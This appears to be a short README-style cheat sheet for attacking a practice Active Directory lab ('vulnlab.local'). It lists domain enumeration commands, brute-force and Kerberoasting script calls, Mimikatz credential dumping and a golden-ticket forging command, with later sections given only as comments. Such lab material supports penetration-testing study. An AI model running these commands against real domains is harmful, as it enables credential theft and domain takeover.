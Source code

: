 ### 1. Basic Enumeration
```powershell
# List users
net user /domain

# List groups
net group /domain

# List computers
net view /domain
```

### 2. Brute Force
```powershell
# Run brute force script
.\bruteforce.ps1
```

### 3. Kerberoasting
```powershell
# Extract TGS tickets
.\kerberoasting.ps1
```

### 4. Pass-the-Hash
```powershell
# Use Mimikatz
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

### 5. Golden Ticket
```powershell
# Create Golden Ticket
kerberos::golden /user:fake /domain:vulnlab.local /sid:S-1-5-21-... /krbtgt:hash /ticket:golden.kirbi
```

### 6. Office Macro Exploitation
```powershell
# Create malicious macro document
# This would be done through Office automation
```

### 7. RPC Exploitation
```powershell
# Exploit RPC vulnerabilities
# Use tools like rpcdump, rpcclient
```

### 8. UAC Bypass
```powershell
# Various UAC bypass techniques
# Registry modifications, DLL hijacking, etc.
```
